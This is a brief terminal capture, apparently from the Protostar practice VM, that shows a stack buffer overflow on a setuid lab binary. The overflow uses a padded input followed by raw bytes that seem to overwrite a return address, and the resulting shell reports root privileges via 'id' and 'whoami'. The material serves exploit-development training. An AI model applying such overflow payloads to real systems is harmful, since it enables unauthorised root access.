input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP���RRRRSSSSTTTT����`췿c�
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
^C
user@protostar:/opt/protostar/bin$
```